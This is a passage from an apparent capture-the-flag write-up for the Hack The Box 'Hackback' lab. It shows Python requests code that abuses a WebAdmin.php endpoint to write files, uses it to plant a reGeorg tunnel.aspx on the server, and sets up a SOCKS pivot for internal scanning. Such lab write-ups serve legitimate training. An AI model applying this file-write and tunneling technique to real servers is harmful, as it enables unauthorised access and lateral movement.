 ```python
r = requests.post("http://www.hackthebox.htb", data=data)
print r.status_code

# Call the PHP code to write the file

r = requests.get("http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=show&site=hackthebox&password=12345678&session=fb6f90c58d1e2f1a7b86546f3300d6d199ac4c0b5309ada3203b2042b3443a56", allow_redirects=False);
print r.text
```

I used [reGeorg](https://github.com/sensepost/reGeorg) to pivot to the machine. reGeorg has two main components to it: a client-side python script that acts as a local SOCKS proxy and the remote .aspx file running on the target server.

To write the .aspx to the webserver directory I used my script above:

```
# ./hackback_write.py "/inetpub/wwwroot/new_phish/admin/2bb6916122f1da34dcd916421e531578/tunnel.aspx" tunnel.aspx
200
200
[04 July 2019, 09:55:44 PM] 10.10.14.11 - Username: test@test.com, Password: 4960 *****
```

Then I started the local component of reGeorg:

```
# python reGeorgSocksProxy.py -l 127.0.0.1 -p 1080 -u http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/tunnel.aspx

    
                     _____
  _____   ______  __|___  |__  ______  _____  _____   ______
 |     | |   ___||   ___|    ||   ___|/     \|     | |   ___|
 |     \ |   ___||   |  |    ||   ___||     ||     \ |   |  |
 |__|\__\|______||______|  __||______|\_____/|__|\__\|______|
                    |_____|
                    ... every office needs a tool like Georg

  willem@sensepost.com / @_w_m__
  sam@sensepost.com / @trowalts
  etienne@sensepost.com / @kamp_staaldraad
  
   
[INFO   ]  Log Level set to [INFO]
[INFO   ]  Starting socks server [127.0.0.1:1080], tunnel at [http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/tunnel.aspx]
[INFO   ]  Checking if Georg is ready
[INFO   ]  Georg says, 'All seems fine'
```

So now I have a SOCKS proxy listening on port 1080 and tunneling the traffic to the Hackback machine. There are probably some ports listening only on the localhost so I can find out by running nmap through the tunnel. I specify the `-sT` flag so nmap does a regular TCP socket with the Connect() method and not the default `-sS` SYN method which doesn't work with proxychains.
